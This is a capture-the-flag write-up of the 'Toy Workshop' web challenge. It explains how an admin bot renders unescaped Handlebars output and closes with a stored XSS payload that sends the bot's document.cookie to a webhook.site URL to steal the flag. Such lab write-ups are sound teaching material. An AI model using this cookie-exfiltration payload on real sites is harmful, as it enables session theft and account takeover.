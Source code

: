 # Exploration #
The prompt is as follows:
> Toy Workshop
> 
> The work is going well on Santa's toy workshop but we lost contact with the manager in charge! We suspect the evil elves have taken over the workshop, can you talk to the worker elves and find out?

# Input #
Taking a look at the website, you can interact and talk to the elves. They both say
> The manage is busy right now! Please write your message below and we'll deliver it to the manager:

There is a textbox that we can put text into.

as a test I wrote
```
<h1>hello</h1>
```
and submitted it, and got a response
> Your message is delivered successfully!

Taking a look at the js we can see that the input, when submitted, gets sent to `/api/submit` as a POST request, in the JSON format

```json
{
    "query": "Your message here"
}
```

Then if the message returns a 200 status code, a message pops up that it was successfully sent.

# Route index.js #
Taking a look at the server side code provided, we can see that there are a couple of routes:
+ /
+ /api/submit
+ /queries

going to /queries redirects you back to the main page unless your ip is 127.0.0.1

When the user submits a message, the server takes the response as a query and adds it to the database. The data gets inserted with a prepare statement, making this not a point of interest.

what is interesting is that a `bot.readQueries(db)` is ran after your post is submitted.

# Bot readQueries #
Looking at the program you can see that this bot opens its own browser and goes to the queries page to read all the submittions, then deletes all of them.

Because the bot is on the server its self it is able to access /queries.

# queries.hbs #
The queries page is a list of all the queries that have been submitted.

It utilizes handlebars to template the data onto the page. The one problem is that they used `{{{}}}` instead of `{{}}` to escape the html. This means we can XSS the page, and obtain the flag from the user's cookies. 

# Exfiltration #
I went to `webhook.site` and created a free webhook url.

I then made the following code to send to the bot:
```html
<img src="a" onerror="new Image().src = `https:\/\/webhook.site/...?cook=${document.cookie}`"/>
```

This image will error becuase it can't find `a` and will run `onerror` which has js to GET a new image, but I set the `src` of that new image to the webhook I created and give it parameters of the `document.cookie`.

I went to the website and submitted my XSS and a second later I got a response and the flag was in the cookie my code extracted!